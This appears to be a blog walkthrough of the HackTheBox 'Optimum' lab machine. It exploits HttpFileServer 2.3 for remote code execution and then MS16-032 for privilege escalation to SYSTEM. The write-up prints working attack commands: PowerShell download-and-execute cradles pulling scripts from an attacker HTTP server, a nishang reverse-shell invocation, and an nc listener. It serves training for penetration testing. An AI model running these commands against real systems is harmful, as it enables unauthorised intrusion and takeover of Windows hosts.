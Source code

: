 ```yaml
---
title: HackTheBox - Optimum
date: 2021-01-07 02:24:42 +0100
categories: [Hackthebox walkthroughs, Windows, Easy]
tags: [htb-windows-easy, HttpFileServer, HFS, metasploit, meterpreter, suggester, searchsploit, RCE, tcpdump, nishang, powershell, Sherlock, Watson, Windows-Exploit-Suggester, wesng, CVE-2016-0099, MS16-032, Empire, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/Optimum.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Optimum-full-port-scan.txt 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.15s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### HttpFileServer/2.3 (port 80)

![HFS main page](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/80-HFS.png)

#### `gobuster`

![gobuster](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/80-gobuster.png)
___

## Method #1: using Metasploit (failed)

![metasploit search HFS](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-search.png)

![](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-info.png)

### Inspecting payload with Burp

![metasploit HFS exploit options](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-options.png)

The exploit seems to save a visual basic script (`.vbs`) on the target. We press "Forward" button (top left) to go further:

![Burp payload 1](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-BURP-1.png)

Now it execute the malicious script. We press "Forward" again:

![Burp payload 2](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-BURP-2.png)

It worked! We got a **meterppreter** as user `kostas`:

![meterpreter session](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-SUCCESS.png)

### Downloading winPEAS

1. Download [winPEAS.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe) (64 bits version)

2. On our machine we run an HTTP Server:

```bash
python3 -m http.server
```

3. From victim's target, go to a world-writeable directory (`c:\Windows\System32\spool\drivers\color>`) and download `winPEAS.exe`: 

```powershell
powershell -command "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.14:8000/winPEAS.exe', 'c:\Windows\System32\spool\drivers\color\winPEAS.exe')"
```

Unfortunately, I didn't find anything interesting in **winPEAS** output.

Therefore, I decided to use **metasploit suggester** &darr;

### Exploit Suggester

Running `sysinfo` within our **meterpreter** session shows us an issue. We're facing a Windows with a 64-bit architecture while our meterpreter is 32 bit (x86):

![meterpreter sysinfo](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-sysinfo.png)

#### x86

If we use **metasploit suggester** anyway:

![MSF suggester x86](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-suggest-x86.png)

#### Migrate (x86 &rarr; x64)

In order to fix this, we can open a shell our **meterpreter** session and then use the `migrate` command:

![meterpreter migrate](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-migrate.png)

#### x64

Now we can use suggester:

![MSF suggester x64](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/MSF-suggest.png)

No exploits were suggested.

## Method #2: without Metasploit 

First, since our [`nmap` scan](#nmap-scan) identified that the target is running **HttpFileServer** (HFS) version **2.3**, and considering that `gobuster` didn't find any thing, let's search for exploits:

![searchsploit HttpFileServer](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/searchsploit-1.png)

It's interesting to notice that looking for `HFS 2.3` gives us more results:

![searchsploit HFS](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/searchsploit-2.png)

However, let's take a look at the first one:

![download first exploit](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/searchsploit-m.png)

![exploit source code](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/RCE.png)

Okay so it's a very simple RCE:

![testing with ping](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/ping.png)

We can see that the `ping` worked, now we can ask ourselves: _how to get a reverse shell?_ 

### Reverse shell

I tried to use this [one-line powershell reverse shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) but I couldn't make it works.

So I used the one from [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) repository (`Invoke-PowerShellTcp.ps1`). We simply add the following line to the script:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 1234
```

> Don't forget to run a listener `nc -lnvp 1234`

Using the exploit (49125.py) example, we can make the target download and execute this reverse shell file by doing so:

```bash
$ python3 49125.py $TARGET 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/Invoke-PowerShellTcp.ps1')"
```

![](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum//Invoke-Powersehll.png)

> **NOTE**: `c:\windows\SysNative\` is a folder specific to 64-bit Windows while `c:\windows\System32\` and `c:\windows\SysWow64\` are both 32-bit Windows folders.

Now we got a shell:

![kostas reverse shell](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/reverse-shell.png)

### User (kostas)

```powershell
PS C:\Users\kostas\Desktop> type user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```

### Windows Exploit Suggester - Next Generation (WES-NG)

Neither [Sherlock](https://github.com/rasta-mouse/Sherlock), [Watson](https://github.com/rasta-mouse/Watson#watson) and [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) worked for me.

However, [wesng](https://github.com/bitsadmin/wesng) (Windows Exploit Suggester Next Generation) helped to find some exploits.

I simply had to save `systeminfo` output into a file and gave it as an argument:

![systeminfo](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/systeminfo.png)

The target machine is **Windows Server 2012 R2 Standard** version **6.3.9600**. It's a 64 bit machine and many patches have been installed as we see _"31 Hotfix(s) Installed"_. 

![wesng](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/wesng.png)

I was interested in **CVE-2016-0099** because of the [Empire](https://github.com/EmpireProject/Empire) exploit &rarr; `Invoke-MS16032.ps1`.

It appears that the target is vulnerable:

![CVE-2016-0099](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/CVE.png)

### Privesc

We have to add this line to `Invoke-MS16032.ps1`:

```powershell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/shell.ps1')"
```

The script `shell.ps1` is just a copy of the nishang `Invoke-PowerShellTcp.ps1` script we previously modified. The only difference is the port on which we are redirecting the shell: 

![diff between shell.ps1 and Invoke-PowerShellTcp.ps1](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/shell-script.png)

Go back to our windows reverse shell, download and execute `Invoke-MS16032.ps1` by doing so:

```powershell
 iex(New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/Invoke-MS16032.ps1')
```

![MS16032](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/MS16032.png)

Wait for the scripts to be downloaded and executed:

![scripts downloaded](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/http-server-ps1.png)

YES! We have access to SYSTEM shell:

![system](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/optimum/system.png)

```powershell
PS C:\users\Administrator\Desktop> type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```
___

## Useful links

- [HFS scripting_commands](https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands)
- [one liner powershell reverse shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
- [CVE-2016-0099](https://nvd.nist.gov/vuln/detail/CVE-2016-0099)
- [MS16-032](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2016/MS16-032)
- [Sherlock](https://github.com/rasta-mouse/Sherlock)
- [Watson](https://github.com/rasta-mouse/Watson#watson)
- [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [wesng](https://github.com/bitsadmin/wesng)
- [Empire](https://github.com/EmpireProject/Empire)